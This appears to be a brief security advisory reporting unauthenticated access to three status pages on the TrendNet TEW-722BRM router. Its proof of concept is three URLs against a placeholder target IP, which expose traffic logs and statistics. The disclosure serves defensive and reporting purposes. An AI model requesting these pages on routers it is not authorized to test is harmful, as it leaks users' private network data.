 #### Vulnerability Detail
There are several pages in TrendNet TEW-722BRM can be accessed without authorization, which could lead to the leak of vital private information.These pages are "status/status_statistic.shtml", "status/traffic_log.shtml", "status/status_vdsl_statistic.shtml". When processed, it exposes the statistic, traffic log and DSL statistic of router.

#### PoC
http://targetip/status/status_statistic.shtml

![poc](https://github.com/dahua966/Routers-vuls/blob/master/TEW-722BRM/status_statistic.jpg)

http://targetip/status/traffic_log.shtml

![poc](https://github.com/dahua966/Routers-vuls/blob/master/TEW-722BRM/traffic_log.jpg)

http://targetip/status/status_vdsl_statistic.shtml

![poc](https://github.com/dahua966/Routers-vuls/blob/master/TEW-722BRM/DSL_statistic.jpg)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Wei Xie

Zhen-hua Wang

En-Ze Wang
